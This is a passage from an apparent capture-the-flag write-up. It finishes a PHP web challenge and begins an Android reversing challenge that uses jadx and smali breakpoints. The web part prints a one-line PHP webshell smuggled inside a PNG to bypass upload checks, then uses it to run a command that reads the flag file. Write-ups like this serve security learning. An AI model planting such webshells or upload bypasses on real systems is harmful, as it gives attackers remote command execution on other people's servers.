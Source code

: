 It works!

Looking at our image restrictions (content type & file extension detection), I get a small PHP webshell (``<?=`$_GET[0]`?>``) and smuggle it inside my PNG file.

Once uploaded we send our payload to read the flag: `cat ../../ s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

Which gives us the flag: <mark>flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}</mark>

**Files:** [php_sucks.zip](https://web.archive.org/web/20231218155922/https://backdoor.infoseciitr.in/uploads?key=b24a1d922590a6c088559e5be72cccc839fda0ffd2210b13fd3913dfd186caa2%2Fphp_sucks.zip)

## Rev/sl4ydroid (55 solves)
Created by: `Sl4y3r_07`

> This challenge has got some Rizz !!

The app (on startup) displays this.

![Initial Display](sl4ydroid_1.png)

I opened the apk with jadx and had a look through the functions on `MainActivity` and noticed this particular portion.

```java
public void onCreate(Bundle savedInstanceState) {
	super.onCreate(savedInstanceState);
	setContentView(C0567R.layout.activity_main);
	TextView textView = (TextView) findViewById(C0567R.C0570id.displayTextView);
	this.displayTextView = textView;
	textView.setVisibility(8);
	TextView textView2 = (TextView) findViewById(C0567R.C0570id.textView);
	this.textView = textView2;
	textView2.setText(getResources().getString(C0567R.string.message));
	kim(getResources().getString(C0567R.string.f116k1));
	nim(getResources().getString(C0567R.string.f117n1));
	damn(getResources().getString(C0567R.string.f115d1));
	m105k2(getResources().getString(C0567R.string.k21));
}
```

The app shows some text normally, and we can see some texts visibility being edited and some text being shown.

I connect my phone and prepare an ADB bridge with jadx. Looking through the Smali I put a breakpoint at:

 - line 225 (`invoke-virtual      {v0, v1}, Landroid/widget/TextView;->setVisibility(I)V`)
 - line 238 (`invoke-virtual      {v0, v1}, Landroid/widget/TextView;->setText(Ljava/lang/CharSequence;)V`)

On the first breakpoint shows setting the visibility. We change this (`v1`) to `0` to make it visible.

![Visibility Change Only](sl4ydroid_2.png)
